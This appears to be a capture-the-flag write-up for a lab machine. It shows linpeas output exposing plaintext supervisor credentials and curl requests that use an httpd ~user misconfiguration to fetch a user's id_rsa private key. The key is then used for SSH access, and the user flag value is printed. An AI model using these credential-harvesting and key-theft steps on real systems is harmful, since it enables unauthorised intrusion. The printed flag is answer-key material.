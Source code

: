 Also i can run linpeas in tmp, im so dumb...
```
[+] Hashes inside passwd file? ........... Binary file /etc/pwd.db matches

/var/supervisord/log/memory_stdout.log
/var/supervisord/log/processes_stdout.log
/var/supervisord/log/uptime_stdout.log

/etc/supervisord.conf:password = 123
/etc/supervisord.conf:username = user

```

The creds found work (user:123) for the service on <b> PORT 9001 </b> !  (supervisor) <br> 
The information present there does not add anything to what i already found by enumerating the machine...

One thing i noted is that the commands were not fully displayed so i tried to view all the commands' length

```
/usr/libexec/httpd -u -X -s -i 127.0.0.1 -I 3001 -L weather /home/r.michaels/devel/webapi/weather.lua -P /var/run/httpd_devel.pid -U r.michaels -b /home/r.michaels/devel/www
```
I searched all the web for some flags on this command and nothing... so i went ahead and tried to run the program to check the help page
```
-u                   enable ~user/public_html support
-X                   directory index support
-U username          change user to `user'
```

Basically using the <b> -u </b>  flag enables to reference to the user used in the -U flag and access the files contained in the last argument (the <b> -b </b> flag does not have anything to do with the path)... <br>

This means that, if we curl to /~r.michaels/ we are accessing /home/r.michaels/devel/www folder !! <br>

```
REQUEST: curl -u webapi_user:iamthebest "http://127.0.0.1:3001/~r.michaels/"

RESPONSE (trimmed): 
<tr><th>Name<th>Last modified<th align=right>Size
<tbody>
<tr><td><a href="../">Parent Directory</a><td>16-Sep-2020 18:20<td align=right>1kB
<tr><td><a href="id_rsa">id_rsa</a><td>16-Sep-2020 16:52<td align=right>3kB
```

Seems there is a symlink (or an backup/copy) of the user <b> r.michaels</b> in this folder...
```
REQUEST: curl -u webapi_user:iamthebest "http://127.0.0.1:3001/~r.michaels/id_rsa"

RESPONSE: (in this notes' folder)
```

Ssh into the machine... Got user
```
cmd: whoami && id

r.michaels
uid=1000(r.michaels) gid=100(users) groups=100(users)

cmd: cat ~/user.txt
FLAG: ea5f0ce6a917b0be1eabc7f9218febc0
```
